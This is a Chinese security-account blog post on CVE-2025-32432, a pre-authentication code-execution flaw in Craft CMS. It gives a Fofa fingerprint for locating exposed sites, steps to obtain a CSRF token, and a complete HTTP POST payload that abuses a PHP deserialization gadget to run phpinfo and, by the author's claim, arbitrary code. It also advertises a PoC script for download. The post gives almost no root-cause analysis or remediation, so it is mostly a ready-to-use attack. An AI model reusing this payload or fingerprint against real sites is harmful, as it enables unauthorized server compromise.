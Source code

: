 #  CraftCMS 存在前台命令执行漏洞 (CVE-2025-32432)   
原创 Mstir  星悦安全   2025-05-01 05:04  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
Craft CMS是一个开源的内容管理系统，它专注于用户友好的内容创建过程，逻辑清晰明了，是一个高度自由，高度自定义设计的平台吗，可以用来创建个人或企业网站也可以搭建企业级电子商务系统。  
  
**Fofa指纹:header="X-Powered-By: Craft CMS" || banner="X-Powered-By: Craft CMS"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvOBEtYZ4scqjTzIS2TiaSb2KFDm9JtsMIvyekIRufhAbagSjMZapuicbwA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvO0ew6XLZzEBxv6wB9BTfew0qcm31UOtribyfqCJ79kOEdiaicjia9gBge6w/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**1.首先访问一下 /admin/login   获取一下CSRF_Token**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvOkQeAbDzhQw2YB0kob1EuhbUuyo0A1zFV5ib0Nym1EHneZoMUezYhC8g/640?wx_fmt=other&from=appmsg "")  
  
**2.然后把CSRF_TOKEN 添加进去发包即可构造phpinfo 或 执行任意代码**  
  
****  
**Payload (phpinfo):**  
  
****  
```
POST /index.php?p=admin/actions/assets/generate-transform HTTP/2
Host: 127.0.0.1
Cookie: CRAFT_CSRF_TOKEN=e40fa024c0415d8febe047e1b10cb29c177af6f7078425b4a4ad51baa12ead4aa%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A40%3A%22IxdRpsRcEf5rV4Mg9Rlm6oO8MI482Vi9M-arQ6hi%22%3B%7D
Content-Type: application/json
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
X-Csrf-Token: mCR9N18c3CaAqUXR6nDCW4gZo0t8cHzu47I46ULar9yg2OGu6dafjNFcGWUvb45Fxc9wo7xEjzyxS88mSh8z1q77DNFwjMbl7fWA3Ljg9-U=
Content-Length: 215

{"assetId":11,"handle":{"width":123,"height":123,"as session":{"class":"craft\\behaviors\\FieldLayoutBehavior","__class":"GuzzleHttp\\Psr7\\FnStream","__construct()":[[]],"_fn_close":"phpinfo"}},"9qsccmw8lve":"="}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvOZNO2VBEq95B2RkplpzVUyZW28wLKKPjib6Vb9zykL8arBV3rI09pQwQ/640?wx_fmt=png&from=appmsg "")  
  
Nuclei 脚本:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvO9dDwYxIWwqbL4jZIfwDDNaiapoNXEznjDP6UUKEiao0zfQVUbVGugL7Q/640?wx_fmt=png&from=appmsg "")  
## 0x02 脚本下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
**POC脚本关注公众号，发送 250501 获取!**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
